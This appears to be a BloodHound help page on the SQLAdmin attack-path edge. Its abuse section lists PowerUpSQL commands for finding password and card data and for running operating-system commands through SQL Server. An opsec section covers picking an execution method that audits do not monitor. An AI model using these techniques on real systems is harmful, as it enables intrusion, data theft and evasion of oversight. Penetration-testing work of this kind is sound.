 ```yaml
---
title: SQLAdmin
---
```


<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration for MSSQL is to have the local Windows account or Active Directory domain account that is configured to run the SQL Server service (the primary database engine for SQL Server) have sysadmin privileges in the SQL Server application. As a result, the SQL Server service account can be used to log into the SQL Server instance remotely, read all of the databases (including those protected with transparent encryption), and run operating systems command through SQL Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances and the associated service account can be identified by executing a LDAP query for a list of “MSSQLSvc” Service Principal Names (SPN) as a domain user. In short, when the Database Engine service starts, it attempts to register the SPN, and the SPN is then used to help facilitate Kerberos authentication.

This clip demonstrates how to abuse this edge:

<iframe id="youtube-1659" frameborder="0" allowfullscreen="" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" title="Player for 2 11 BloodHound Head to Tail Andy Robbins Rohan Vazarkar" width="100%" height="420" src="https://www.youtube.com/embed/fqYoOoghqdE?autoplay=0&amp;controls=0&amp;disablekb=1&amp;playsinline=1&amp;cc_load_policy=0&amp;cc_lang_pref=auto&amp;widget_referrer=https%3A%2F%2Fsupport.bloodhoundenterprise.io%2Fhc%2Fen-us%2Farticles%2F17322512928795-SQLAdmin&amp;rel=0&amp;showinfo=0&amp;iv_load_policy=3&amp;modestbranding=1&amp;customControls=true&amp;noCookie=false&amp;enablejsapi=1&amp;origin=https%3A%2F%2Fsupport.bloodhoundenterprise.io&amp;widgetid=1" data-gtm-yt-inspected-6="true"></iframe>

Abuse Info[](#heading-1)
------------------------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before executing any of the below commands, download PowerUpSQL and load it into your PowerShell instance. Get PowerUpSQL here: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

**Finding Data**

Get a list of databases, sizes, and encryption status:
```
Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\\instance –Threads 10 -NoDefaults
```
Search columns and data for keywords:
```
Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize
```
**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system commands on remote systems through SQL Server using different techniques. The level of access on the operating system will depend largely what privileges are provided to the service account. However, when domain accounts are configured to run SQL Server services, it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:
```
Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance
```
Agent Job Execution Examples:
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\\windows\\temp\\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\\windows\\temp\\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\\windows\\system32\\cmd.exe /c echo hello > c:\\windows\\temp\\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword
```
```
Python Subsystem Execution:
```
Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance
```
R subsystem Execution Example:
```
Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
OLE Execution Example:
```
Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance
```
CLR Execution Example:
```
Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance
```
Custom Extended Procedure Execution Example:

1.  Create a custom extended stored procedure:
```
Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\\temp\\test.txt" -ExportName xp_test
```
2.  Host the test.dll on a share readable by the SQL Server service account:
```
Get-SQLQuery -Verbose -Query "sp\_addextendedproc 'xp\_test', '\\\yourserver\\yourshare\\myxp.dll'" -Instance sqlserver\instance
```
3.  Run extended stored procedure:
```
Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance
```
4.  Remove extended stored procedure:
```
Get-SQLQuery -Verbose -Query "sp\_dropextendedproc 'xp\_test'" -Instance sqlserver\instance
```
Opsec Considerations[](#heading-2)
----------------------------------

Prior to executing operating system commands through SQL Server, review the audit configuration and choose a command execution method that is not being monitored.

View audits:
```
SELECT * FROM sys.dm\_server\_audit_status
```
View server specifications:
```
SELECT audit_id,
a.name as audit_name,
s.name as server\_specification\_name,
d.audit\_action\_name,
s.is\_state\_enabled,
d.is_group,
d.audit\_action\_id,
s.create_date,
s.modify_date
FROM sys.server_audits AS a
JOIN sys.server\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.server\_audit\_specification_details AS d
ON s.server\_specification\_id = d.server\_specification\_id
```
View database specifications:
```
SELECT a.audit_id,
a.name as audit_name,
s.name as database\_specification\_name,
d.audit\_action\_name,
d.major_id,
OBJECT_NAME(d.major_id) as object,
s.is\_state\_enabled,
d.is_group, s.create_date,
s.modify_date,
d.audited_result
FROM sys.server_audits AS a
JOIN sys.database\_audit\_specifications AS s
ON a.audit_guid = s.audit_guid
JOIN sys.database\_audit\_specification_details AS d
ON s.database\_specification\_id = d.database\_specification\_id
```
If server audit specifications are configured on the SQL Server, event ID 15457 logs may be created in the Windows Application log when SQL Server level configurations are changed to facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may be created in the Windows Application log when Agent and database level configuration changes are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and configuring audit configurations can be found at [https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql](https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql)

References[](#heading-3)
------------------------

* [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
* [https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation](https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation)
* [https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver](https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver)
* [https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017)
* [https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/](https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/)
